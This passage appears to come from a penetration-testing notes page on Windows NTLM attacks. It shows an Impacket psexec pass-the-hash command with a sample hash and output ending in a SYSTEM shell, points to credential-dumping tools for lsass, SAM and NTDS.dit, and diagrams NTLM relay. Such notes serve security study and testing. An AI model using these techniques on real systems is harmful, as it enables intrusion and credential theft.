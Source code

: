 ```
$ psexec.py contoso.local/Anakin@192.168.100.10 -hashes :cdeae556dc28c24b5b7b14e9df5b6e21
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 192.168.100.10.....
[*] Found writable share ADMIN$
[*] Uploading file WFKqIQpM.exe
[*] Opening SVCManager on 192.168.100.10.....
[*] Creating service AoRl on 192.168.100.10.....
[*] Starting service AoRl.....
[!] Press help for extra shell commands
The system cannot find message text for message number 0x2350 in the message file for Application.

(c) Microsoft Corporation. All rights reserved.
b'Not enough memory resources are available to process this command.\r\n'
C:\Windows\system32>whoami
nt authority\system
```

#### How do we extract the NT hashes?

To extract NT hashes from lsass you can use [mimikatz sekurlsa::logonpasswords](https://github.com/gentilkiwi/mimikatz/wiki/module-\~-sekurlsa#logonpasswords) command, [dump the lsass process](https://www.c0d3xpl0it.com/2016/04/extracting-clear-text-passwords-using-procdump-and-mimikatz.html) with tools like [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), [sqldumper or others](https://lolbas-project.github.io/#/dump), and copy the dump to your local machine to read it with [mimikatz](https://github.com/gentilkiwi/mimikatz), [pypykatz](https://github.com/skelsec/pypykatz) or [read the dump remotely](https://en.hackndo.com/remote-lsass-dump-passwords/) with [lsassy](https://github.com/Hackndo/lsassy), extract the hashes [from the local SAM database](https://www.hackingarticles.in/credential-dumping-sam/) or the [NTDS.dit database in Domain Controllers](https://www.hackingarticles.in/credential-dumping-ntds-dit/)

#### How does NTLM Relay work?

{% embed url="https://en.hackndo.com/ntlm-relay/" %}

This attack consists in an attacker redirecting the NTLM authentication to a server of its interest to get an authenticated session (Person-in-The-Middle attack)

```
  client                 attacker               server
      |                       |                     |
      |                       |                -----|--.
      |     NEGOTIATE         |     NEGOTIATE       |  |
      | --------------------> | ------------------> |  |
      |                       |                     |  |
      |     CHALLENGE         |     CHALLENGE       |  |> NTLM Relay
      | <-------------------- | <------------------ |  |
      |                       |                     |  | 
      |     AUTHENTICATE      |     AUTHENTICATE    |  |
      | --------------------> | ------------------> |  |
      |                       |                -----|--'
      |                       |    application      |
      |                       |     messages        |
      |                       | ------------------> |
      |                       |                     |
      |                       | <------------------ |
      |                       |                     |
      |                       | ------------------> |
      |                       |                     |
```


[dc01]: PS C:\Users\Administrator\Documents> whoami
[dc01]: PS C:\Users\Administrator\Documents> hostname
